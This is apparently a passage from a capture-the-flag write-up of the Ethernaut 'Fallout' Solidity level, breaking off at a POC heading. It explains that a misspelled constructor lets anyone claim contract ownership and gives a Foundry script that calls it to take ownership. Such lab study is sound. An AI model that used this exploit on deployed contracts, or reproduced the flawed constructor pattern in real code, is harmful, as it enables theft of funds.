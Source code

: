 ```js
    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

The constructor was misspelled as `Fal1out()` instead of `constructor`. That means anyone can call it and claim ownership.

### Script

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.12;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Fallout.sol";

contract FalloutSolution is Script {
    Fallout public falloutInstance = Fallout(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Owner before attack:", falloutInstance.owner());
        falloutInstance.Fal1out();
        console.log("Owner after attack:", falloutInstance.owner());
        console.log("My Address:", vm.envAddress("MY_ADDRESS"));
        vm.stopBroadcast();
    }
}
```

### POC
